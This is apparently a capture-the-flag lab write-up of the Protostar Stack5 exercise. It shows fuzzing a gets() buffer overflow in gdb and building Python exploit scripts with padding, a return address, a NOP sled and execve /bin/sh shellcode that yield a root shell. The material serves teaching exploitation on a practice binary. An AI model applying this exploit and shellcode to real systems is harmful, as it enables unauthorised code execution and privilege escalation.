 # [cd ../](../index.md)
# Stack5

> Stack5 is a standard buffer overflow, this time introducing shellcode.
> Hints
- At this point in time, it might be easier to use someone elses shellcode
- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
- remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Interesting
- Very little code
- We **dont** have a win function so we have to gain root shell

# Starting it
## Fuzzing
- Try the changing pattern in gdb
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```
as input and see where it segfaults  
Cmds:
```
gdb stack5
r < fuzzingpattern
info registers
```
![fuzz1](fuzz1.png)  
- **ebp** = **S**, **eip** = **T**
- We can `disass main` and we can `break *0x080483da` (the address of **ret**)
- Or we can `define hook-stop`  
![hook](hook.png)
## Change the exploit

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0x41414141)
print padding+eip
```

- Now we can test it
- The program returned to our **last stack** address.
![return](return.png)

## The exploit
- We have to jump to a valid location like **esp**
- After hitting the breakpoint we can `si` (step 1 instruction) and `info registers`
- We have the address of **esp** now `0xbffff7b0`
- Change the exploit a lilbit by changing the `0x41`'s to `0xbffff7b0`
- We have to append the shellcode that we want to execute after the return pointer
- We have to use the **INT3** (breakpoint) code now `\xCC`

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0)
payload = '\xCC'*4
print padding+eip+payload
```

![int3](int3.png)  
- We have code execution now
- We need a [shellcode](http://shell-storm.org/shellcode/) from this page and we will use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) simple **execve**
- Copy the bytes to our python script as the payload variable
- Our code isnt working cuz we forgot to add some **NOP** instructions
- Lets add some lines to the code

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0+30)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding+eip+nop+payload
```

- We can run it now with `python stack5.py | ./stack5`
  - We got nothing back cuz our shell auomatically closes when the program terminates
  - We can bypass this with `(python stack5.py ; cat) | ./stack5`  
![gotroot](gotroot.png)

# BOOM WE GOT THE SHELL AS ROOT
